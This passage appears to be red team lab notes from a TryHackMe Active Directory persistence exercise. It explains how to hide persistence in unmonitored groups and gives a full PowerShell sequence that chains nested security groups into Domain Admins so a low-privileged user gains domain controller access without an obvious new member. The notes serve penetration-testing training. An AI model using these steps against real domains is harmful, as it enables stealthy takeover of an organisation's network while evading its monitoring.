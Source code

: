 ## Group Membership

Any group that classifies as a protected group, such as Domain Admins or Enterprise Admins, receive additional security scrutiny. So if we want to persist through group membership, we may need to get creative regarding the groups we add our own accounts to for persistence:

* The IT Support group can be used to gain privileges such as force changing user passwords. Although, in most cases, we won't be able to reset the passwords of privileged users, having the ability to reset even low-privileged users can allow us to spread to workstations.
* Groups that provide local administrator rights are often not monitored as closely as protected groups. With local administrator rights to the correct hosts through group membership of a network support group, we may have good persistence that can be used to compromise the domain again.
* It is not always about direct privileges. Sometimes groups with indirect privileges, such as ownership over Group Policy Objects (GPOs), can be just as good for persistence.

Rather than adding ourselves to a privileged group that would raise an alert, we add ourselves to a subgroup that is not being monitored.

{% code overflow="wrap" fullWidth="true" %}
```powershell
# Nesting Our Persistence -> start by creating a new base group that we will hide in the People->IT Organisational Unit (OU)
PS C:\Users\Administrator.ZA>New-ADGroup -Path "OU=IT,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 1" -SamAccountName "<username>_nestgroup1" -DisplayName "<username> Nest Group 1" -GroupScope Global -GroupCategory Security
# Let's now create another group in the People->Sales OU and add our previous group as a member
PS C:\Users\Administrator.ZA>New-ADGroup -Path "OU=SALES,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 2" -SamAccountName "<username>_nestgroup2" -DisplayName "<username> Nest Group 2" -GroupScope Global -GroupCategory Security 
PS C:\Users\Administrator.ZA>Add-ADGroupMember -Identity "<username>_nestgroup2" -Members "<username>_nestgroup1"
# We can do this a couple more times, every time adding the previous group as a member
PS C:\Users\Administrator.ZA> New-ADGroup -Path "OU=CONSULTING,OU=PEOPLE,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 3" -SamAccountName "<username>_nestgroup3" -DisplayName "<username> Nest Group 3" -GroupScope Global -GroupCategory Security
PS C:\Users\Administrator.ZA> Add-ADGroupMember -Identity "<username>_nestgroup3" -Members "<username>_nestgroup2"
PS C:\Users\Administrator.ZA> New-ADGroup -Path "OU=MARKETING,OU=PEOPLE,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 4" -SamAccountName "<username>_nestgroup4" -DisplayName "<username> Nest Group 4" -GroupScope Global -GroupCategory Security
PS C:\Users\Administrator.ZA> Add-ADGroupMember -Identity "<username>_nestgroup4" -Members "<username>_nestgroup3"
PS C:\Users\Administrator.ZA> New-ADGroup -Path "OU=IT,OU=PEOPLE,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 5" -SamAccountName "<username>_nestgroup5" -DisplayName "<username> Nest Group 5" -GroupScope Global -GroupCategory Security
PS C:\Users\Administrator.ZA> Add-ADGroupMember -Identity "<username>_nestgroup5" -Members "<username>_nestgroup4"
# With the last group, let's now add that group to the Domain Admins group
PS C:\Users\Administrator.ZA>Add-ADGroupMember -Identity "Domain Admins" -Members "<username>_nestgroup5"
# Lastly, let's add our low-privileged AD user to the first group we created
PS C:\Users\Administrator.ZA>Add-ADGroupMember -Identity "<username>_nestgroup1" -Members "<low privileged username>"
# Instantly, your low-privileged user should now have privileged access to DC
dir \\thmdc.za.tryhackme.loc\c$\
# Let's also verify that even though we created multiple groups, the Domain Admins group only has one new member
PS C:\Users\Administrator.ZA> Get-ADGroupMember -Identity "Domain Admins"
# If this was a real organisation, we would not be creating new groups to nest. Instead, we would make use of the existing groups to perform nesting. However, this is something you would never do on a normal red team assessment and almost always dechain at this point since it breaks the organisation's AD structure
```
{% endcode %}
